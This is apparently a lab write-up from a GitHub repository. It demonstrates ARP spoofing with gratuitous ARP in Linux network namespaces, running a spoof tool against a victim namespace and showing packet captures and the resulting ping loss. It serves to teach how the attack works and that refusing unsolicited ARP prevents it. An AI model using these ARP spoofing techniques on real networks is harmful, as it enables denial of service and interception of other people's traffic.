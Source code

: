 # spoof-arp

- source: [linuxyz/spoof-arp](https://github.com/seantywork/linuxyz/tree/main/spoof-arp)
- date: 2509-04

We can try out ARP spoofing on Linux with the source code and script in this directory.

Below is the layout of the environment created by the `setup.sh` shell script.


```shell
-------------------------
|   host                |
|  11.168.0.1 (veth01)  |
|  82 59 88 10 d3 fe    |
-------------------------
        |
        |
--------------------------
|   vnet0                |    ------------------------
|   bridge (vbr0)        |    | vnet2 (attacker 😈)  |
|    arp_accept enabled, |----| 11.168.0.200 (veth21)|
|    vulnerable to       |    | 22 e8 90 6d 69 e5    |
|    arp spoofing        |    ------------------------
--------------------------
        |
        |
--------------------------
|   vnet1                |
|   11.168.0.2 (veth11)  |
|   26 08 9a c4 c6 d3    |
--------------------------


```
The shell script not only creates the environment but also \
sets `vbr0` to accept unsolicitied ARP packet, which \
makes it vulnerable to ARP spoofing attack.

In other words, if a switch located in that positon doesn't allow for \
unsolicitied ARP packets, you don't have to worry about being ARP spoofed :)

And adding to that, `vnet2` is configured to drop the packets coming in whose \
destination is not `11.168.0.200`, which means any packets set to be forwarded \
will be dropped. 

Let's check out the poor victim's mac table.

```shell
$ sudo ip netns exec vnet1 ip neigh
# no mac info 
$ 

```

Now, let's check if it can ping the host `11.168.0.1` as usual.

```shell
$ sudo ip netns exec vnet1 ping 11.168.0.1
PING 11.168.0.1 (11.168.0.1) 56(84) bytes of data.
64 bytes from 11.168.0.1: icmp_seq=1 ttl=64 time=0.084 ms
64 bytes from 11.168.0.1: icmp_seq=2 ttl=64 time=0.047 ms
64 bytes from 11.168.0.1: icmp_seq=3 ttl=64 time=0.059 ms
64 bytes from 11.168.0.1: icmp_seq=4 ttl=64 time=0.050 ms
^C
--- 11.168.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3072ms
rtt min/avg/max/mdev = 0.047/0.060/0.084/0.014 ms

```

Checking mac table again...

```shell
$ sudo ip netns exec vnet1 ip neigh
# now there is mac info!
11.168.0.1 dev veth11 lladdr 82:59:88:10:d3:fe REACHABLE

```

So far so good.

Clear all info from the mac table.

```shell
$ sudo ip netns exec vnet1 ip neigh flush all
$ sudo ip netns exec vnet1 ip neigh 
$

```

Now, we're going to use ARP spoof attack to interfere (DoS) with \
the normal flow of traffic.

In the section below, `g` flag means it will use [gratuitous ARP](https://wiki.wireshark.org/Gratuitous_ARP) to \
perform ARP spoofing. You can also use `ng` to perfrm ARP spoofing \
but it uses unsolicited ARP reply packet to do so.

```shell
$ sudo ip netns exec vnet2 ./spoof.out g
my: ifidx: 2 ip: 11.168.0.200 hw: 22 e8 90 6d 69 e5
victim: ip: 11.168.0.2 hw: 26 08 9a c4 c6 d3
gateway: ip: 11.168.0.1 hw: 82 59 88 10 d3 fe
spoofing? 

```

On the other terminal, I captured the ARP packets going back and forth as you can \
see below.

```shell
$ sudo ip netns exec vnet0 tshark -i vbr0
[sudo] password for thy: 
Running as user "root" and group "root". This could be dangerous.
Capturing on 'vbr0'
    1 0.000000000 22:e8:90:6d:69:e5 → Broadcast    ARP 42 Who has 11.168.0.2? Tell 11.168.0.200
    2 0.000037175 26:08:9a:c4:c6:d3 → 22:e8:90:6d:69:e5 ARP 42 11.168.0.2 is at 26:08:9a:c4:c6:d3
    3 0.000059438 22:e8:90:6d:69:e5 → Broadcast    ARP 42 Who has 11.168.0.1? Tell 11.168.0.200
    4 0.000069170 82:59:88:10:d3:fe → 22:e8:90:6d:69:e5 ARP 42 11.168.0.1 is at 82:59:88:10:d3:fe


```

From the victim's namespace, we can see the updated mac table.

```shell
$ sudo ip netns exec vnet1 ip neigh 
11.168.0.200 dev veth11 lladdr 22:e8:90:6d:69:e5 STALE
```

Now, back to the attacker, and hitting `enter` will make the program to \
send out gratuitous arp to perform spoofing attack.

```shell
$ sudo ip netns exec vnet2 ./spoof.out g
my: ifidx: 2 ip: 11.168.0.200 hw: 22 e8 90 6d 69 e5
victim: ip: 11.168.0.2 hw: 26 08 9a c4 c6 d3
gateway: ip: 11.168.0.1 hw: 82 59 88 10 d3 fe
spoofing? 
gratuitous arp...
gratuitous arp...

```

Seeing from packet capture, you can see that the program is lying \
about its IP association. Specifically, it's saying that IP `11.168.0.1`, \
which is `host`'s IP address is mapped to the attacker's mac address.

If the switch accepts this dubious claim (in our case it does), then any packet \
that's destined to `11.168.0.1` will end up trapped in `11.168.0.200`.

```shell
Frame 4: 42 bytes on wire (336 bits), 42 bytes captured (336 bits) on interface vbr0, id 0
    Section number: 1
    Interface id: 0 (vbr0)
        Interface name: vbr0
    Encapsulation type: Ethernet (1)
    Arrival Time: Sep  2, 2025 13:43:07.035245849 KST
    UTC Arrival Time: Sep  2, 2025 04:43:07.035245849 UTC
    Epoch Arrival Time: 1756788187.035245849
    [Time shift for this packet: 0.000000000 seconds]
    [Time delta from previous captured frame: 5.000146902 seconds]
    [Time delta from previous displayed frame: 5.000146902 seconds]
    [Time since reference or first frame: 15.000502026 seconds]
    Frame Number: 4
    Frame Length: 42 bytes (336 bits)
    Capture Length: 42 bytes (336 bits)
    [Frame is marked: False]
    [Frame is ignored: False]
    [Protocols in frame: eth:ethertype:arp]
Ethernet II, Src: 22:e8:90:6d:69:e5 (22:e8:90:6d:69:e5), Dst: Broadcast (ff:ff:ff:ff:ff:ff)
    Destination: Broadcast (ff:ff:ff:ff:ff:ff)
        Address: Broadcast (ff:ff:ff:ff:ff:ff)
        .... ..1. .... .... .... .... = LG bit: Locally administered address (this is NOT the factory default)
        .... ...1 .... .... .... .... = IG bit: Group address (multicast/broadcast)
    Source: 22:e8:90:6d:69:e5 (22:e8:90:6d:69:e5)
        Address: 22:e8:90:6d:69:e5 (22:e8:90:6d:69:e5)
        .... ..1. .... .... .... .... = LG bit: Locally administered address (this is NOT the factory default)
        .... ...0 .... .... .... .... = IG bit: Individual address (unicast)
    Type: ARP (0x0806)
Address Resolution Protocol (request/gratuitous ARP)
    Hardware type: Ethernet (1)
    Protocol type: IPv4 (0x0800)
    Hardware size: 6
    Protocol size: 4
    Opcode: request (1)
    [Is gratuitous: True]
    Sender MAC address: 22:e8:90:6d:69:e5 (22:e8:90:6d:69:e5)
    Sender IP address: 11.168.0.1
    Target MAC address: Broadcast (ff:ff:ff:ff:ff:ff)
    Target IP address: 11.168.0.1

```

Precisely that happens as you can see from `ping` command below.

```shell
$ sudo ip netns exec vnet1 ping 11.168.0.1
PING 11.168.0.1 (11.168.0.1) 56(84) bytes of data.
64 bytes from 11.168.0.1: icmp_seq=1 ttl=64 time=0.129 ms
64 bytes from 11.168.0.1: icmp_seq=34 ttl=64 time=0.169 ms
^C
--- 11.168.0.1 ping statistics ---
35 packets transmitted, 2 received, 94.2857% packet loss, time 34812ms
rtt min/avg/max/mdev = 0.129/0.149/0.169/0.020 ms


```

It's also confirmed by the packet capture.

```shell
$ sudo ip netns exec vnet0 tshark -i vbr0 -f "icmp"
Running as user "root" and group "root". This could be dangerous.
Capturing on 'vbr0'
    1 0.000000000   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=1/256, ttl=64
    2 0.000063576   11.168.0.1 → 11.168.0.2   ICMP 98 Echo (ping) reply    id=0xa180, seq=1/256, ttl=64 (request in 1)
    3 1.019965141   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=2/512, ttl=64
    4 2.044919873   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=3/768, ttl=64
    5 3.067998313   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=4/1024, ttl=64
    6 4.091929811   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=5/1280, ttl=64
    7 5.115978551   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=6/1536, ttl=64
    8 6.140009603   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=7/1792, ttl=64
    9 7.163937904   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=8/2048, ttl=64
   10 8.187997388   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=9/2304, ttl=64
   11 9.211988746   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=10/2560, ttl=64
   12 10.236013397   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=11/2816, ttl=64
   13 11.260045390   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=12/3072, ttl=64
   14 12.283941056   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=13/3328, ttl=64
   15 13.307911841   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=14/3584, ttl=64
   16 14.331996693   11.168.0.2 → 11.168.0.1   ICMP 98 Echo (ping) request  id=0xa180, seq=15/3840, ttl=64


```

Check out the current status of victim's mac table

```shell

$ sudo ip netns exec vnet1 ip neigh 
11.168.0.200 dev veth11 lladdr 22:e8:90:6d:69:e5 STALE 
11.168.0.1 dev veth11 FAILED

```